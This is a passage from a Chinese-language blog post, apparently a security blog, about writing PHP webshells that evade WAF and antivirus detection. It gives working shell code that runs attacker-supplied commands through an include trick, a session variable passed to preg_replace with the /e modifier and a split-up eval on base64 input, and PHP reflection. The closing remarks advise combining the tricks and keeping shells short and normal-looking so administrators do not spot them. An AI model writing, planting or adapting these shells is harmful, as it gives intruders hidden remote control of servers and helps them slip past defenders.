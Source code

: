 

![img](https://klionsec.github.io/img/base64%20array.png)

利用包含特性,也是一种相对比较原始的waf bypass方式:

```
<?php include './include_shell.txt'?>php
```



![img](https://klionsec.github.io/img/webshell%20include.png)

利用session机制免杀:

```php
<?php 
session_start();$_SESSION['cmd'] = trim($_POST['code']);
echo preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'cmd\']))','a');
?>
```

>preg_replaced的eis
>
>修饰符： 
>在正则表达式里面的修饰符可以改变正则的很多特性，使得正则表达式更加适合你的需要（注意：修饰符对于大小写是敏感的，这意味着"e"并不等于"E"）。正则表达式里面的修饰符如下： 
>**i ：如果在修饰符中加上"i"，则正则将会取消大小写敏感性，即"a"和"A" 是一样的。** 
>m：默认的正则开始"^"和结束"$"只是对于正则字符串如果在修饰符中加上"m"，那么开始和结束将会指字符串的每一行：每一行的开头就是"^"，结尾就是"$"。 
>s：如果在修饰符中加入"s"，那么默认的"."代表除了换行符以外的任何字符将会变成任意字符，也就是包括换行符！ 
>**x：如果加上该修饰符，表达式中的空白字符将会被忽略，除非它已经被转义。** 
>**e：本修饰符仅仅对于replacement有用，代表在replacement中作为PHP代码。** 
>A：如果使用这个修饰符，那么表达式必须是匹配的字符串中的开头部分。比如说"/a/A"匹配"abcd"。 
>E：与"m"相反，如果使用这个修饰符，那么"$"将匹配绝对字符串的结尾，而不是换行符前面，默认就打开了这个模式。 
>U：和问号的作用差不多，用于设置"贪婪模式"。 
>
>?表单非贪婪匹配，即尽可能少的匹配

![img](https://klionsec.github.io/img/session%20shell.png)

利用php反射特性免杀

```php
<?php 
$func = new ReflectionFunction(base64_decode($_POST[m]));
echo $func->invokeArgs(array(base64_decode($_POST[c])));
php?>
```

![img](https://klionsec.github.io/img/ReflectionFunction%20shell.png)



## 5.后话

```
上面的给出的这些shell,正常来讲,应该都不会活很久,可能有些早已经死了,不得不说的是,像各种编码函数它本身就是敏感特征
因为自己目前还在外地,完整环境也不在身边,就没有一一给大家进行实际的免杀测试了,不过这也并不是目的
这次主要还想跟大家好好梳理一些可以用来免杀的优良特性,大家可以再单独针对这些特性去做深入研究,达到灵活变通才是最终目的
实战中,假设某一个特性不行,不妨同时几个特性配合着一起来,往往会有不错的效果
说实话,如果不针对这些带有特殊特性的函数下手,只是简单的见招拆招,基于此思路衍生出来的shell,现阶段的waf是很难做到主动识别的
当然,等量子或光子计算机及机器学习真正普及的时候,`识别`应该就不是问题了,所以,大家暂可不必担心这些shell被杀,核心还是灵活掌握这些最基本的免杀特性
没事儿的话,还是非常建议大家多去翻翻php的开发手册,里面还有很多没被发觉出来的宝贝,
如果真的是深刻理会了,像什么过waf菜刀自然就很容易理解了,其实现在看来还是蛮简单的
自己拿wireshark跑跑POST包就能看到的很清楚了,然后再针对杀的点逆向一下即可
其实,随着php快速的升级迭代,有些特性可能并不能适用于所有php版本,这也再正常不过
以前的虽然是没有了肯定还会有更好的替代品,还是那句话,思路比任何东西都要重要
可能大家也发现了,这次基本全部都是在说php,并没有涉及到asp,jsp,aspx,java不过其中有些脚本特性都是相通的,大家触类旁通就好了
实际使用中建议不要用的过于花哨,没错,也许你确实是躲避了waf,但却没能逃过运维大叔们的法眼,所以,越不显眼,代码越正常,长度越短越好
当然啦,方法肯定不止这么点儿,也期待能和大家一起多交流
```